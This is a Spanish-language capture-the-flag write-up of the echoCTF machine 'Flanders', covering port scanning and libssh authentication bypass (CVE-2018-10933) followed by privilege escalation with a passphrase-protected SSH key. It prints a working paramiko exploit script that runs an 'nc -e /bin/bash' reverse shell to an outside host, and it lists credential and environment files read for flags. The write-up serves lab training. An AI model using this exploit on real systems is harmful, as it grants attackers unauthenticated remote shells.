



Flanders
Write-up de la máquina Flanders de echoCTF.

Índice
- Introducción
- Estadísticas
- Reconocimiento
- Escaneo de host
- Enumeración
- Servicios (nombre - puerto)
- Explotación
- libSSH Authentication Bypass
- Post Explotación
- Enumeración
- Escalación de privilegios
- Ubicación de banderas
Introducción
Estadísticas
| Característica | Descripción |
|---|---|
| Nombre | Flanders |
| Dificultad | Basic |
| Banderas | 4 (2 system, env, root) |
| Puntos | 4,800 pts (system/1,000 pts, system/1,300 pts, env/900 pts, root/1,500 pts) |
| Descripción / Pistas | Flanders simple and kind, always ready to to give a helping hand. His favorite catch phrase is Okily Dokily. Catch phrase sounds like a pass phrase, only without space |
Reconocimiento
Escaneo de host
Escaneo completo de puertos
❯ sudo nmap -T5 -open -vvv --min-rate=5000 -p- -n -Pn -oG nmap/all_ports $BOX_TARGET
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-27 09:35 CDT
Initiating SYN Stealth Scan at 09:35
Scanning 10.0.100.34 [65535 ports]
Discovered open port 6022/tcp on 10.0.100.34
Completed SYN Stealth Scan at 09:35, 14.77s elapsed (65535 total ports)
Nmap scan report for 10.0.100.34
Host is up, received user-set (0.14s latency).
Scanned at 2021-10-27 09:35:04 CDT for 15s
Not shown: 65534 closed ports
Reason: 65534 resets
PORT STATE SERVICE REASON
6022/tcp open x11 syn-ack ttl 63
Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 15.11 seconds
Raw packets sent: 72729 (3.200MB) | Rcvd: 70809 (2.832MB)
Escaneo específico
❯ nmap -sCV -p 6022 -oN nmap/targeted $BOX_TARGET
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-27 09:48 CDT
Nmap scan report for 10.0.100.34
Host is up (0.14s latency).
PORT STATE SERVICE VERSION
6022/tcp open ssh libssh 0.8.1 (protocol 2.0)
| ssh-hostkey:
|_ 2048 9c:42:2e:fa:60:30:95:dd:a0:60:80:1f:fd:ae:77:86 (RSA)
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 4.85 seconds
Enumeración
Servicios (nombre - puerto)
ssh - 6022
Manual
Dado el reconocimiento por medio de nmap se puede identificar que se está corriendo un servidor ssh en un puerto no convencional y se expone la versión libssh 0.8.1, después de una búsqueda se puede identificar que la versión expuesta cuenta con una vulnerabilidad la cuál explota un bypass de autenticación, reportada en el CVE-2018-10933.
Se encontraron diversos scripts en python que abusan de la vulnerabilidad:
- https://www.exploit-db.com/exploits/45638
- https://gist.github.com/mgeeky/a7271536b1d815acfb8060fd8b65bd5d
Explotación
libSSH Authentication Bypass
Pasos previos | Preparación
Como parte de los scripts buscados se encontró el siguiente código en un script que resultó bastante simple de ejecutar, únicamente realizando los cambios pertinentes de ip, puerto y comando (entablando una reverse shell).
Script
#!/usr/bin/python3
import sys
import paramiko
import socket
s=socket.socket()
s.connect(("10.0.100.34",6022))
m=paramiko.message.Message()
t=paramiko.transport.Transport(s)
t.start_client()
m.add_byte(paramiko.common.cMSG_USERAUTH_SUCCESS)
t._send_message(m)
c=t.open_session(timeout=5)
c.exec_command("nc -e /bin/bash 10.10.0.26 1234")
out=c.makefile("rb",2048)
output=out.read()
out.close()
print (output)
Ejecución

- Ejecución de script.
- Listener de reverse shell.
Post Explotación
Enumeración
Realizando enumeración manual se puede observar que el directorio principal del usuario al que se accede ETSCTF contiene una llave ssh que a primera impresión apuntaría a un método de escalación de privilegios a root.

- Directorio.
- Llave.
- Usuario al que pertenece.
Escalación de privilegios
ETSCTF → root
La idea inicial a seguir sería extraer la llave encontrada para intentar acceder al sistema con ella, dado que ningún intento funcionó, se puede tratar de ubicar si existe algún otro medio de acceso a la máquina por el cuál esté restringida a conexiones provenientes únicamente desde local, es decir, de flanders hacia flanders. Para comprobar esto se puede buscar si algún servicio de ssh está ejecutandose y si existe algún puerto que esté a la escucha de nuevas conexiones.

La salida del comando mapea automáticamente los puertos comúnes para el servicio siendo así que 127.0.0.1:ssh sería lo mismo que 127.0.0.1:22, verificando de esta manera que se escuchan conexiones ssh localmente.

En esta comprobación se puede ver que se está ejecutando sshd correspondiente al servidor de ssh en linux.
Se suelen proteger las llaves ssh con passphrases y observando que en la descripción de la máquina se proporciona una passphrase (Okily Dokily) se pudiera concluir que al hacer uso de la llave se pedirá.

Logrando así satisfactoriamente la escalación de privilegios.

Ubicación de banderas
/etc/passwd./etc/shadow.- Extrayendo las variables de entorno de los procesos en ejecución con
strings /proc/*/environ | grep ETSCTF. /root.